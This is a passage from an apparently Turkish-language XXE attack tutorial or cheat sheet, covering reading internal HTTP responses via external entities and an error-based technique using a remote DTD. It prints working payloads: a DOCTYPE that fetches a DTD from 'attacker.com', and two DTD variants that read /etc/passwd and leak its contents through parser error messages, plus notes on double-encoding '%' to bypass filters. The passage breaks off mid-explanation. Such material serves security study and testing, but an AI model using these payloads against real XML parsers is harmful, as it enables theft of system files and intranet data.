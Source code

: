 Bu sefer:

- `file` entity'si **bir web sayfasını ([`https://erp.company.com`](https://erp.company.com))** okuyor.
- Eğer XML parser **internet bağlantısına izin veriyorsa**, bu URL'deki **HTTP cevabın içeriğini** `file` entity'sine yüklemiş olur.
- Ardından aynı error-based sızdırma tekniğiyle bu içerik hata mesajında gösterilir.

Sunucu içerisinden sadece dosyalar değil, **başka sunuculardan gelen HTTP yanıtları da** (örneğin intranet üzerindeki özel servisler) okunup dışa sızdırılabilir.


##### Neden Bu Kadar Karmaşık?

- `cim20.dtd` gibi dosyalarda tanımlı olan parametre entity'ler (`%SuperClass` gibi), bazı durumlarda **otomatik olarak çağrılır**.
- Saldırgan bu parametreyi **önceden tanımlayıp içine kendi payload'ını yerleştirdiğinde**, XML parser bunu **otomatik çağırır** ve içerik çalıştırılır.
- `&#x25;` (yani `%`) ve `&#x26;#x25;` (çift encode edilmiş `%`) gibi kodlamalar, parser'ın davranışını **gecikmeli** ve **katmanlı** hale getirir. Bu, bypass için kullanılır.

### 99- Error Based - Using Remote DTD 

**Payload to trigger the XXE**:

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://attacker.com/ext.dtd">
    %ext;
]>
<message></message>
```

ext.dtd'nin içeriği:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

**Alternative content of ext.dtd**:

```xml
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; leak SYSTEM '%data;:///'>">
%eval;
%leak;
```

Payload'ı parçalara ayıralım:

1-`<!ENTITY % file SYSTEM “file:///etc/passwd”>` Bu satır, `/etc/passwd` dosyasının (kullanıcı hesabı ayrıntılarını içeren Unix benzeri bir sistem dosyası) içeriğine referans veren file adlı external bir entity tanımlar.
